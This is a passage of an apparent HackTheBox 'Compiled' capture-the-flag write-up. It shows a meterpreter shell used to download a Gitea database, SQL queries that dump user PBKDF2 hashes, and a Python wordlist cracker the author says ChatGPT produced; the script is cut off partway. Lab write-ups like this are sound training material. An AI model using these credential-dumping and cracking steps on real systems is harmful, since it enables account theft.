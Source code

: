 After executing the `.exe` file on the target we get a meterpreter shell. We can now easily download `gitea.db` with `download "C:\Program Files\Gitea\data\gitea.db"`.

![Gitea db file download](/images/HTB-Compiled/gitea_db_download.png)

We run the following queries and obtain the user hashes.

```
sqlite3 gitea.db

.tables

select * FROM user;
```

![hashes in the gitea.db file](/images/HTB-Compiled/hashes_in_giteadb.png)

Those are PBKDF2 hashes.

> PBKDF2 (Password-Based Key Derivation Function 2) is a cryptographic algorithm used to derive secure cryptographic keys from a password. It applies a pseudorandom function (such as HMAC) iteratively to the password along with a salt (a random value) to generate a key. The process is repeated many times (often thousands or tens of thousands of iterations) to slow down brute-force attacks and make it harder for attackers to recover the original password.

From [this hashcat page](https://hashcat.net/wiki/doku.php?id=example_hashes) we learn that the hash needs to follow this format: 
`<HASH_ALGORITHM>:<NUMBER_OF_ITERATIONS>:<base64_SALT>:<base64_hash>`. An example would be:

```
sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt
```

Cracking the hash with hascat ends up taking too long which is unusual for HackTheBox, hash cracking is usually pretty quick.

![HTB hash cracking information](/images/HTB-Compiled/cracking_info.png)

![hashcat cracking process taking too long](/images/HTB-Compiled/hashcat_toolong.png)

So I asked ChatGPT for a Python script to find the password. This is possible because we already have all the information needed:
* The algorithm: pbkdf2
* The hash value: `97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16`
* The number of iterations: 50000
* The salt value: `227d873cca89103cd83a976bdac52486`
* The key length: 50

```python
import hashlib

def pbkdf2_decrypt(hash_value, salt, iterations, key_length, wordlist_path):
    # Convert the salt and hash to bytes (hex decoding)
    salt = bytes.fromhex(salt)
    hash_value = bytes.fromhex(hash_value)
    
    # Open the wordlist file
    with open(wordlist_path, 'r', encoding='utf-8', errors='ignore') as wordlist:
        for word in wordlist:
            word = word.strip()  # Remove any trailing spaces or newline characters
            
            # Hash the current word using PBKDF2 with HMAC SHA256
            derived_key = hashlib.pbkdf2_hmac('sha256', word.encode(), salt, iterations, dklen=key_length)
            
            # Check if the derived key matches the target hash
            if derived_key == hash_value:
```